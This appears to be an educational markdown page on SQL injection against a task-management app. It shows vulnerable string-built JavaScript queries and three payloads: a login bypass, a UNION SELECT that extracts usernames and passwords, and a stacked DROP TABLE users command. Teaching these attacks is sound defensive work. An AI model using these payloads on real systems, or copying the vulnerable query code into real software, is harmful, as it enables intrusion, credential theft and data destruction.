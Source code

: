 ### 1. Login Bypass

**Vulnerable Code**:
```javascript
const query = `SELECT * FROM users WHERE username = '${username}'`;
```

**Attack Payload**:
```
Username: admin' OR '1'='1' --
Password: anything
```

**Resulting Query**:
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' --'
```

**What happens**:
- `'1'='1'` is always true
- `--` comments out the rest of the query
- Returns first user in database (usually admin)

### 2. Data Extraction

**Vulnerable Code**:
```javascript
query += ` AND (title LIKE '%${search}%' OR description LIKE '%${search}%')`;
```

**Attack Payload**:
```
Search: ' UNION SELECT username, password, email, id FROM users --
```

**Resulting Query**:
```sql
SELECT * FROM tasks WHERE user_id = 1 AND (title LIKE '%' UNION SELECT username, password, email, id FROM users --%')
```

**What happens**:
- `UNION` combines results from tasks and users tables
- Exposes all usernames and passwords
- Comments out the rest of the query

### 3. Data Manipulation

**Attack Payload**:
```
Task ID: 1; DROP TABLE users; --
```

**Resulting Query**:
```sql
DELETE FROM tasks WHERE id = 1; DROP TABLE users; --
```
